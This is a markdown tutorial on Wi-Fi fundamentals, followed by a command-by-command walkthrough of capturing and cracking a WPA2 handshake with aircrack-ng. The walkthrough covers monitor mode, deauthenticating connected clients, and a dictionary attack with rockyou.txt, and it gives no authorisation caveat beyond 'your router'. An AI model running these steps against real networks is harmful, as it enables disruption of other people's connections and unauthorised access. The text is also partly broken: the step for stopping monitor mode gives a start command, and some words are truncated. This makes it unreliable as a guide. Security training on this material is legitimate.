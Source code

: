 # Wireless Networking Fundamentals
1. 📶 What Is Wireless Networking?
Wireless networking allows devices to connect to a network (typically the internet) using radio waves instead of cables.

The most common type is Wi-Fi, which follows the IEEE 802.11 standard.

## Terms
- SSID (Service Set Identifier): The name of a Wi-Fi network (e.g., MyHomeWiFi)
- BSSID (Basic Service Set Identifier): The MAC address of the Access Point (e.g., 58:6D:8F:1D:2C:9A)
- AP (Access Point): The device (usually your router) that broadcasts the network
## Wi-Fi Security Protocols

Aircrack-ng is commonly used to test the security of WEP and WPA/WPA2-PSK networks.

| Protocol | Security Level | Status                    |
| -------- | -------------- | ------------------------- |
| **WEP**  | Very Weak      | Obsolete (easily cracked) |
| **WPA**  | Weak           | Obsolete                  |
| **WPA2** | Strong         | Still widely used         |
| **WPA3** | Strongest      | Newest, more secure       |


##  Wi-Fi Modes

Wireless cards can operate in different modes:

| Mode             | Description                                                 |
| ---------------- | ----------------------------------------------------------- |
| **Managed Mode** | Normal mode – connects to AP                                |
| **Monitor Mode** | Listens to all wireless traffic – needed for packet capture |
| **Master Mode**  | Acts as an Access Point                                     |
| **Ad-hoc Mode**  | Device-to-device communication without a router             |

## 802.11 Packet Types
| Type           | Purpose                                                  |
| -------------- | -------------------------------------------------------- |
| **Management** | Establish and maintain connections (e.g., beacon, probe) |
| **Control**    | Help with delivery of data (e.g., RTS/CTS, ACK)          |
| **Data**       | Actual payload (your internet traffic)                   |

##  4-Way Handshake (WPA/WPA2)

When a client connects to a WPA/WPA2-secured network, a 4-step handshake occurs:

AP sends a nonce (random number) to client.

Client uses that nonce + password to generate key.

Client sends its own nonce to AP.

AP confirms and both now share the key.

Capturing this handshake is the first step in cracking WPA/WPA2 using Aircrack-ng.


## Step-by-Step: WPA2 Handshake Capture & Crack
Step 1: Set Up Environment
```
sudo apt update && sudo apt install aircrack-ng
```

Check Wi-Fi interface:
```
iwconfig
```

Step 2: Enable Monitor Mode

Killing interface process `sudo airmon-ng check kill` starting monitor mode `sudo airmon-ng start wlan0`.verify you in monitor mode `iwconfig`
```
sudo airmon-ng check kill          # Stop conflicting processes
sudo airmon-ng start wlan0         # Replace wlan0 with your interface name

```


Step 3: Capture Handshake
Scan networks
```
sudo airodump-ng wlan0mon
```
Look for your router's SSID and BSSID. Press Ctrl+C once you see it.

Then:
airodump-ng to capture packets and listen for the handshake. Terminal 1 (Listening for handshake).This listens for the router on channel 6 and saves any handshakes.
```
sudo airodump-ng --bssid <BSSID> --channel <CH> -w handshake wlan0mon
```
Second terminal: Running `aireplay-ng` to deauthenticate a connected device (forcing it to reconnect so you can capture the handshake).
step Force Handshake via Deauthentication
This sends deauthentication packets to force a connected client to reconnect — that's when the handshake occurs and gets captured by airodump-ng.

```
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0mon
```

This will disconnect a client. When it reconnects, a handshake will be captured.

Check handshake capture:
```
aircrack-ng handshake-01.cap
```

```
Read 4458 packets.

   #  BSSID              ESSID           Encryption
   1  8C:90:2D:7D:61:8A  Soul Station    WPA (0 handshake)
```
The handshake may not have been fully captured.

A client may not have (re)connected while you were capturing.

The deauthentication may not have worked


step Crack the WPA2 Password

ou need a wordlist. Kali has one at /usr/share/wordlists/rockyou.txt.gz:
```
gunzip /usr/share/wordlists/rockyou.txt.gz
```

```
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b <BSSID> handshake-01.cap
```




stopping monitor mode:
```
sudo airmon-ng start wlan0mon
```

start 
```
sudo systemctl start NetworkManager
```









